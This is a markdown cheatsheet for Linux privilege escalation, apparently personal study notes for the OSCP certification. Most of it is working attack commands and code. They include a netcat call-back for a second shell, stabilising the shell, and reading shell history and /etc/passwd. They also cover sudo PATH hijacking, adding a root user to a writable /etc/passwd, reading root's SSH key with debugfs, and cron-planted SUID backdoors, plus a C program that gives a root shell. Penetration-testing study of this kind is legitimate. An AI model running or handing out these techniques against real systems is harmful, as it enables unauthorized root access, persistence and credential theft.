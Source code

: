 ```yaml
---
title: Linux Privilege Escalation
date: 2020-06-29 16:33:08
tags: [oscp, linux, cheatsheet, privilege escalation]
---
```


# Linux Privilege Escalation Cheatsheet

So you got a shell, what *now*?
This cheatsheet will help you with local enumeration as well as escalate your privilege further

Usage of different enumeration scripts are encouraged, my favourite is [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
Another linux enumeration script I personally use is [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
Abuse existing functionality of programs using [GTFOBins](https://gtfobins.github.io/)

*Note: This is a live document. I'll be adding more content as I learn more*

## Unstable shell
Send yourself another shell from within the unstable shell
``` bash
which nc
nc $ip $port
```

## Make it functional
Necessary for privilege escalation purposes
``` bash
which python[3]
python[3] -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
# In Kali
stty -a # Notice number of rows and columns
stty raw -echo && fg
# On target system
reset
stty rows xx
stty columns yy
export TERM=xterm-256color
```
## General info
``` bash
# username, groups
id
hostname

# Part of too many groups? Find out all the files you've access to
for i in $(groups); do echo "=======$i======"; find / -group $i 2>/dev/null | grep -v "proc" >> allfiles; done

# Interesting internally listening ports?
netstat -anpt

# Look what the user was up to
less .bash_history
less mysql_history

# Check user accounts
cat /etc/passwd | grep "sh$\|python"

sudo -l
```
## Automated enumeration
``` bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts
./linpeas.sh -q

./linenum.sh
```

## Abusing sudo
Can sudo but absolute path is specified? Use `ltrace` to view libraries being loaded by these programs and check if absolute path is specified or not
``` bash
# Easy win?
sudo -l # Check programs on GTFOBins

# Can sudo, abosulte path not specified?
echo "/bin/sh" > <program_name>
chmod 777 <program_name>
# Export PATH=.:$PATH
sudo <program_name>
```

## Weak file permissions
``` bash
# Writable /etc/passwd?
Remove 'x' beside a username --> no password
# Create a new user
openssl passwd "lol" # Prints out a hash
# Make a new entry at the end of /etc/passwd
notahacker:$passwd_hash:0:0:/root:/bin/bash # Become r00t yourself

# /dev/sda1 readable?
debugfs /dev/sda1 # Get root's SSH private key 
```

## Abusing CRON jobs
``` bash
# Writable CRON program?
# Insert language specific reverse shell

# Writable library?
# Back up library
# Insert language specific reverse shell at the end of the library

# Make root give you a bash SUID program
# Make getroot.sh file with following contents and wait for CRON job to run the program
#!/bin/dash
cp /bin/dash /tmp/backdoor
chown root:root /tmp/backdoor
chmod u+s /tmp/backdoor
# Execute /tmp/backdoor to get a root shell


cp /bin/bash /tmp/backdoor
chmod 6755 /tmp/backdoor
# Execute /tmp/backdoor -p to get a root shell
```
Use a suid program and use as per context
getsuid.c
``` c
// BOTH WORKS
// gcc -o suid getsuid.c
// AS INTENDED USER - 
	// chown root:root suid
	// chmod 6755 suid

// immediately spawns shell upon execution 
int main() {
	setuid(0);
	system("/bin/bash -p");
}

// or better, execvp doesn't drop euid
// able to handle more things without any modifications
// run commands as root
#include <stdio.h>
#include <unistd.h>

int main(int argc, const char * argv[]){
	if (argc > 1) printf("%s",execvp(argv[1],&argv[1]));
	return 0;
}
```
## Abusing wildcards
Check out this fantastic [document](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt) of a talk
* Abusing `chmod` 
* Abusing `chown`
* Abusing `tar`
* Abusing `rsync`

## Abusing NFS < 4

Refer to my [personal notes](https://www.notion.so/NFS-4-689ff63036654c3f8e3bda2deef9f6e5) for exploiting NFS < 4